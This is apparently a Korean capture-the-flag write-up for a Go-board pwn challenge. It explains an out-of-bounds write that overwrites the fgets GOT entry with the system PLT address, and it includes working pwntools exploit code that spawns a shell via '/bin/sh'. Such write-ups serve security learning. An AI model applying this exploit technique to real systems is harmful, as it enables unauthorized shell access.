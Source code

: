 ## 함수 분석 / 취약점 발견
입력을 할 수 있는 부분 중 buffer를 벗어나 입력할 수 있는 부분은 단 하나이다.
```
  printf("please input x:");
  read(0, buf, 9u);
  v1 = atoi(buf);
  printf("y:");
  read(0, buf, 9u);
  v2 = atoi(buf);
  if ( v2 * v1 > 1600 )
  {
    puts("error: not baduk pan area\n");
    puts("please send message for creator");
    fgets(&name, 99, stdin);
    exit(0);
  }
  baduk_pan[40 * v1 + v2] = ++count;
```
* count는 1로 초기화되어있다.
v2*v1이 1600만 안넘으면 된다. 즉, v2와 v1이 꼭 0~40일 필요가 없다.
1. 문제의 제목인 GOT_OVERWRITE에서 착안, fgets를 system으로 바꾸게 fgets의 got의 주소를 system으로 향하는 address로 바꾸면 되지 않을까?
    * system 자체의 주소는 libc가 항상 바뀌고 libc를 유추할 방법이 없다
    * system plt의 주소는 문제 내에서 system("/bin/clear")을 사용하느라 plt가 존재한다. 이를 사용하자.
2. 이후 fgets를 system으로 바꿀 수 있고 name에 /bin/sh를 입력하면 fget(&name, 99, stdin)는 사실 system("/bin/sh")를 실행하는 것이 된다

## 구현
1. fgets의 got 주소는 `0x0804b014`, badukpan[]의 주소는 `0x804b080`
    * `x = -2, y = -28 ~ -25`로 이에 접근할 수 있다.
2. system의 plt 주소는 `0x08048590`이다. 리틀 엔디안 식으로 표현하면 `0x90 0x85 0x04 0x08`이므로 
    * count를 증가시켜가며 입력하고자 하는 바이트의 값이 되면 이를 fget의 got에 입력하자.
    ```python
    lap = 0x91
    for i in range(2, lap+2):
        log.info(f'count: {i}/{lap}')
        if (i == 0x90):
            p.recvuntil('x:')
            p.sendline(b'-2')
            p.recvuntil('y:')
            p.sendline(b'-28')
        elif (i == 0x85):
            p.recvuntil('x:')
            p.sendline(b'-2')
            p.recvuntil('y:')
            p.sendline(b'-27')
        elif (i == 0x04):
            p.recvuntil('x:')
            p.sendline(b'-2')
            p.recvuntil('y:')
            p.sendline(b'-26')
        elif (i == 0x08):
            p.recvuntil('x:')
            p.sendline(b'-2')
            p.recvuntil('y:')
            p.sendline(b'-25')
        else: # count 증가할때는 [0]에다가 넣자
            p.recvuntil('x:')
            p.sendline(b'0')
            p.recvuntil('y:')
            p.sendline(b'0')
        p.recvuntil('playing....\n') # thats very good su aI playing....
    ```
3. 일부러 x*y > 1600인 x와 y를 입력하고 오류를 띄운다. fgets를 호출하기 전에 이름을 입력받으므로 /bin/sh을 입력해주자
```python
p.recvuntil('x:')
p.sendline(b'41')
p.recvuntil('y:')
p.sendline(b'41')
p.recvuntil('creator\n')
p.sendline("/bin/sh\x00")
p.interactive()
```
